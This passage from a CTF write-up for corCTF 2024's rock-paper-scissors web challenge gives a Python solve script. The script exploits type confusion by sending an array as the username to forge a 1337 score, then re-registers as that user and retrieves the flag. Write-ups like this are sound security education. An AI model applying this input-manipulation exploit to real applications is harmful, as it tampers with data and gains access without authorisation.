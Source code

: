 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2024/images/Pasted%20image%2020240729195622.png)

Nice!

Now, let's write a solve script to get the real flag!

```python
#!/usr/bin/env python3
import requests

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.session()
        self.CREATE_NEW_USERNAME_ENDPOINT = f'{self.baseUrl}/new'
        self.DUMMY_USERNAME = 'dummy_username'
        self.SET_TO_SCORE = 1337
        self.FLAG_USERNAME = 'flag_username'
        self.PLAY_GAME_ENDPOINT = f'{self.baseUrl}/play'
        self.GET_FLAG_ENDPOINT = f'{self.baseUrl}/flag'

    def createNewUsername(self, bodyData):
        print(f'[*] Creating new username with body data: {bodyData}')
        self.session.post(self.CREATE_NEW_USERNAME_ENDPOINT, json=bodyData)

    def playGame(self):
        print(f'[*] Losing the game intentionally...')
        bodyData = { 'position': '' }
        self.session.post(self.PLAY_GAME_ENDPOINT, json=bodyData)

    def getFlag(self):
        print(f'[*] Getting the flag...')
        return self.session.get(self.GET_FLAG_ENDPOINT).text

    def solve(self):
        bodyData = {
            'username': [
                self.DUMMY_USERNAME,
                self.SET_TO_SCORE,
                self.FLAG_USERNAME
            ]
        }
        self.createNewUsername(bodyData)
        self.playGame()

        bodyData = { 'username': self.FLAG_USERNAME }
        self.createNewUsername(bodyData)

        flag = self.getFlag()
        if not flag:
            print('[-] We couldn\'t get the flag!')
            return

        print(f'[+] We got the flag: {flag}')

if __name__ == '__main__':
    baseUrl = 'https://rock-paper-scissors-c0a55f84c298d61f.be.ax'
    solver = Solver(baseUrl)

    solver.solve()
```
